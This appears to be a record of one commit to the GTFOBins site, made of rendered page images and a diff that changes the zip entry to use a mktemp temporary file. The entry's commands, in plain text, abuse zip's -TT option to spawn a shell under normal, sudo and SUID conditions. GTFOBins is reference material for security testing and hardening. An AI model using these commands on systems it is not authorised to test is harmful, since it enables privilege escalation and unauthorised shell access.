

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/zip.md, in a window 1280 px wide. Shown: the top 866 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Use temporary files in zip functions

```diff
--- a/_gtfobins/zip.md
+++ b/_gtfobins/zip.md
@@ -2,14 +2,17 @@
 functions:
   execute-interactive:
     - code: |
-        zip /tmp/x.zip /etc/hosts -T -TT 'sh #'
-        rm /tmp/x.zip
+        TF=$(mktemp -u)
+        zip $TF /etc/hosts -T -TT 'sh #'
+        rm $TF
   sudo-enabled:
     - code: |
-        sudo zip /tmp/x.zip /etc/hosts -T -TT 'sh #'
-        sudo rm /tmp/x.zip
+        TF=$(mktemp -u)
+        sudo zip $TF /etc/hosts -T -TT 'sh #'
+        sudo rm $TF
   suid-limited:
     - code: |
-        ./zip /tmp/x.zip /etc/hosts -T -TT 'sh #'
-        sudo rm /tmp/x.zip
+        TF=$(mktemp -u)
+        ./zip $TF /etc/hosts -T -TT 'sh #'
+        sudo rm $TF
 ---
```
